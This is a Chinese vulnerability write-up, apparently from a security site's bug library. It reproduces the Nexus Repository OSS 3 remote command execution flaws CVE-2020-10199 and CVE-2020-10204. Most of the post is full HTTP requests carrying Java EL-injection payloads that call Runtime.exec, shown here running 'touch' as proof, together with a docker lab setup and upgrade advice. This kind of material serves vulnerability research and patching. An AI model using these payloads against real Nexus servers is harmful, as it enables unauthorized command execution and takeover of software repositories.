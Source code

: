 ```yaml
---
title: 'nexus oss 命令执行漏洞 (cve-2020-10199 && 10204)'
date: Mon, 14 Sep 2020 12:14:26 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### nexus repository oss

Nexus Repository OSS 3是一个开源的仓库管理系统，提供了更加丰富的功能，而且安装、配置、使用起来也更加简单方便。OSS 3版本主要支持的仓库（Repository）包括如下： bower、docker、maven、npm、nuget、pypi、raw、rubygems、yum

#### 漏洞详情

10199的漏洞需要普通用户权限即可触发，而10204则需要管理员权限。两个漏洞的触发原因均是不安全的执行EL表达式导致的

#### 漏洞复现

启动漏洞环境 `docker run -it -p 8081:8081 -d co0ontty/cve-2020-10199` 查看用户名密码```
查看 DOCKER CONTAINER ID
docker ps
 查看密码 其中 bc91335e3518 为 DOCKER CONTAINER ID
docker exec -it bc91335e3518 cat /root/sonatype-work/nexus3/admin.password 
```访问 http://ip:8081

#### cve-2020-10199

命令执行：```
POST /service/extdirect HTTP/1.1
Host: 192.168.232.128:8081
Content-Length: 372
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.31170964063400564
Content-Type: application/json
Accept: */*
Origin: http://192.168.232.128:8081
Referer: http://192.168.232.128:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: NX-ANTI-CSRF-TOKEN=0.31170964063400564; NXSESSIONID=77c0418f-6c70-430c-8c20-222908bbe861
Connection: close

{"action":"cleanup_CleanupPolicy","method":"create","data":[{"name":"co0ontty","format":"$\\.{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /opt/cve-2020-10199')}","notes":"222","mode":"delete","lastBlobUpdatedEnabled":false,"lastDownloadedEnabled":false,"releaseTypeEnabled":false,"regexEnabled":false,"criteria":{}}],"type":"rpc","tid":33} 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/nexus-10199-1.png) 触发命令执行：```
POST /service/rest/beta/repositories/apt/hosted HTTP/1.1
Host: 192.168.232.128:8081
Content-Length: 358
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.31170964063400564
Content-Type: application/json
Accept: */*
Origin: http://192.168.232.128:8081
Referer: http://192.168.232.128:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: NX-ANTI-CSRF-TOKEN=0.31170964063400564; NXSESSIONID=77c0418f-6c70-430c-8c20-222908bbe861
Connection: close

{
  "name": "interna1l",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true,
    "writePolicy": "allow_once"
  },
  "cleanup": {
    "policyNames": ["co0ontty"]
  },
  "apt": {
    "distribution": "bionic"
  },
  "aptSigning": {
    "keypair": "string",
    "passphrase": "string"
  }
} 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/nexus-10199-2.png)

#### cve-2020-10204

命令执行一：```
POST /service/extdirect HTTP/1.1
Host: 192.168.232.128:8081
Content-Length: 362
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.31170964063400564
Content-Type: application/json
Accept: */*
Origin: http://192.168.232.128:8081
Referer: http://192.168.232.128:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: NX-ANTI-CSRF-TOKEN=0.31170964063400564; NXSESSIONID=77c0418f-6c70-430c-8c20-222908bbe861
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"test","version":"4","firstName":"test","lastName":"test","email":"test@qq.com","status":"active","roles":["nx-admin$\\.{''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /opt/co0ontty.success')}"]}],"type":"rpc","tid":20} 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/nexus-10204.png) 命令执行二：```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 192.168.232.128:8081
Content-Length: 214
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.31170964063400564
Content-Type: application/json
Accept: */*
Origin: http://192.168.232.128:8081
Referer: http://192.168.232.128:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: NX-ANTI-CSRF-TOKEN=0.31170964063400564; NXSESSIONID=6d9fd8c5-4b18-4680-b332-09600e9d34b5
Connection: close

{
  "name": "interna1l",
  "online": true,
  "group": {
    "memberNames": ["${'co0ontty'.toUpperCase()}"]
  },
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  }
} 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/nexus-upper.png)

#### 解决方案

请升级版本到 Nexus Repository Manager OSS/Pro 3.21.2 或更高版本 蔚蓝盾入侵防御系统已支持对 CVE-2020-10199 及 CVE-2020-10204 的防御